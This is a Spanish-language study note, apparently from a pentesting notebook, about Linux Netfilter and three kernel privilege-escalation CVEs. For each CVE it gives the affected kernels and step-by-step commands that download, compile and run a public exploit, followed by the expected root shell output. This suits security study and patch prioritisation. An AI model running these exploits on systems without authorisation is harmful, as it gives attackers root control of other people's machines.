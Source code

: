 ```yaml
---
tags:
  - privilege-escalation
  - kernel
  - netfilter
  - linux
  - exploits
aliases:
  - Netfilter Exploits
---
```


# 🧱 Netfilter y Vulnerabilidades en el Kernel de Linux

## ¿Qué es Netfilter?
Netfilter es un módulo del kernel de Linux que permite:

- Filtrado de paquetes.
- Traducción de direcciones de red (NAT).
- Seguimiento de conexiones.

Actúa como una capa de software en el kernel que manipula paquetes usando reglas definidas. Herramientas como `iptables` y `arptables` son interfaces que interactúan con Netfilter.

---

## 🔧 Funciones principales

1. Defragmentación de paquetes.
2. Seguimiento de conexiones.
3. Traducción de direcciones de red (NAT).

---

## ⚠️ Vulnerabilidades en Netfilter

Estas vulnerabilidades permiten **escalar privilegios a root** mediante exploits.

---

### 🔓 CVE-2021-22555
- **Kernel vulnerable:** 2.6 a 5.11.
- **Tipo:** Escritura fuera de límites (Out-Of-Bounds Write).
- **Impacto:** Escalada a root.

#### 🧪 PoC

```bash
uname -r
# Ejemplo de salida: 5.10.5-051005-generic

wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
gcc -m32 -static exploit.c -o exploit
./exploit
```

#### ✅ Resultado esperado

```bash
[+] You've Got ROOT :-)
# id
uid=0(root) gid=0(root) groups=0(root)
```

---

### 🔓 CVE-2022-25636
- **Kernel vulnerable:** 5.4 a 5.6.10.
- **Archivo afectado:** `nf_dup_netdev.c`
- **Tipo:** Heap Out-Of-Bounds Write.
- **Impacto:** Escalada a root (riesgo de corrupción del kernel).

#### 🧪 PoC

```bash
uname -r
# Ejemplo de salida: 5.13.0-051300-generic

git clone https://github.com/Bonfee/CVE-2022-25636.git
cd CVE-2022-25636
make
./exploit
```

#### ✅ Resultado esperado

```bash
[*] You've Got ROOT :-)
# id
uid=0(root) gid=0(root) groups=0(root)
```

---

### 🔓 CVE-2023-32233
- **Kernel vulnerable:** Hasta 6.3.1.
- **Tipo:** Use-After-Free en `nf_tables` (sets anónimos).
- **Impacto:** Modificación de memoria del kernel, escalada a root.

#### 🧪 PoC

```bash
git clone https://github.com/Liuk3r/CVE-2023-32233
cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
./exploit
```

#### ✅ Resultado esperado

```bash
[*] You've Got ROOT :-)
# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 🏢 Riesgos en entornos empresariales

- Muchas empresas usan distros antiguas por compatibilidad con sus aplicaciones.
- Esto impide actualizaciones críticas del kernel.
- Incluso con contenedores o máquinas virtuales, el **kernel base sigue siendo vulnerable**.

---

## ⚠️ Advertencia

> Estos exploits pueden ser **inestables** y dañar el sistema. Algunos requieren reinicio tras ejecutarlos.
